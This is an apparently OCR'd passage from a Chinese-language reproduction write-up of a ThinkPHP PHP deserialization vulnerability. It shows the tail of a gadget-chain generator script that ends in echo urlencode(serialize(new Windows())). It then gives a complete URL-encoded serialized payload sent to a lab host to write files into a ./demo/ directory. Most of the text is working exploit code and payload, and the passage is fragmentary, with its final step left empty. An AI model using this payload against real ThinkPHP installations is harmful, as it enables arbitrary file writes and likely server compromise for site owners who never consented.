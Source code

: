 ```php
    function __construct(){
        $this->options = [
        'expire'        =0,
        'cache_subdir'  =false,
        'prefix'        ='',
        'path'          ='./demo/',
        'data_compress' =false,
        ];
        $this->tag = true;
    }
}

namespace think\model;
use think\Model;
class Pivot extends Model{


}
use think\process\pipes\Windows;
echo urlencode(serialize(new Windows()));
```
# 漏洞复现
- 先创建一个 demo 目录

```bash
[payload=](http://192.168.246.129/public/index.php?d1no=O%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A6%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22getError%22%3B%7Ds%3A8%3A%22%00%2A%00error%22%3BO%3A27%3A%22think%5Cmodel%5Crelation%5CHasOne%22%3A3%3A%7Bs%3A11%3A%22%00%2A%00bindAttr%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A2%3A%22no%22%3Bi%3A1%3Bs%3A3%3A%22123%22%3B%7Ds%3A15%3A%22%00%2A%00selfRelation%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A7%3A%22.%2Fdemo%2F%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7D%7Ds%3A6%3A%22parent%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A7%3A%22.%2Fdemo%2F%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7Ds%3A15%3A%22%00%2A%00selfRelation%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A7%3A%22.%2Fdemo%2F%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7Ds%3A8%3A%22%00%2A%00aaaaa%22%3BN%3B%7D%7D%7D)
```
- 往这个目录写文件
```bash
```